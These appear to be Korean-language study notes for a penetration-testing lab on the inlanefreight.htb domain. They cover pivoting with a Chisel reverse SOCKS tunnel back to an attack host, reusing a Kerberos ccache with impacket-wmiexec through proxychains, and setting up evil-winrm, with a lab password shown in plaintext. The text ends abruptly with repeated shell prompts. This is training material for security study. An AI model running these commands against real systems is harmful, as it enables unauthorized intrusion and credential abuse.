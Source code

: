 # Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

#### 프록시체인 구성 파일
```
$ cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

#### Download Chisel to Attack Host
```
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
$ gzip -d chisel_1.7.7_linux_amd64.gz
$ mv chisel_* chisel && chmod +x ./chisel
$ sudo ./chisel server --reverse
```

#### Connect to MS01 with xfreerdp
```$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution```

#### Execute chisel from MS01
- 클라이언트 IP는 공격 호스트 IP<br/>
```C:\> c:\tools\chisel.exe client 10.10.14.33:8080 R:socks```

#### KRB5CCNAME 환경 변수 설정
```$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133```

#### Using Impacket with proxychains and Kerberos Authentication
```
$ proxychains impacket-wmiexec dc01 -k
C:\>whoami
```
> 도메인에 연결된 Linux 머신에서 Impacket 도구를 사용하는 경우 일부 Linux Active Directory 구현은 KRB5CCNAME 변수에 FILE: 접두사를 사용.
> 이 경우 ccache 파일에 대한 경로만 포함하도록 변수를 수정해야 함

#### Using Evil-WinRM with Kerberos
- Kerberos에서 [evil-winrm](https://github.com/Hackplayers/evil-winrm)을 사용하려면 네트워크 인증에 사용되는 Kerberos 패키지(`krb5-user`)를 설치해야 함<br/>
```$ sudo apt-get install krb5-user -y```<br/>
- `krb5-user`가 이미 설치되어 있는 경우 구성 파일 `/etc/krb5.conf`를 다음 값을 포함하도록 변경<br/>
```
$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> whoami